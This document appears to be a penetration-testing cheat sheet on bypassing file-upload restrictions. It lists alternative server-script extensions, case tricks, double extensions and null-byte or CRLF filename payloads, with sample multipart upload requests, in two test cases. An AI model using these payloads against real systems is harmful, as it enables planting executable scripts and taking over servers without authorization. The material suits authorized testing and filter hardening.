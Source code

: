 ## Test Case - 1: Blacklisting Bypass.

```markdown
1. Find the upload request and send it to the repeater
2. Now start testing which extension for the file is blacklisted, change the `filename=` Parameter

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. Try all of this extension

**PHP** → .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
**ASP** → asp, .aspx, .cer, .asa
**Jsp** → .jsp, .jspx, .jsw, .jsv, .jspf
**Coldfusion** → .cfm, .cfml, .cfc, .dbm
**Using random capitalization** → .pHp, .pHP5, .PhAr

Find more in PayloadAllThings and https://book.hacktricks.xyz/pentesting-web/file-upload

4. If successful then exploit further, or there might be other type of validation or
   check so try other bypass.
```

## Test Case - 2: Whitelisting Bypass

```markdown
1. Find the upload request and send it to the repeater
2. Now start testing which extension for the file is whitelisted, change the `filename=` Parameter

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.jpg"
Content-Type: application/x-php

3. Try all of this extension

file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\x00.jpg this can be done while uploading the file too, name it file.phpD.jpg and change the D (44) in hex to 00.
file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html

4. If doesn't works then try to bruteforce using intruder which extension are accepted and try again
5. If successful then exploit further, or there might be other type of validation or
```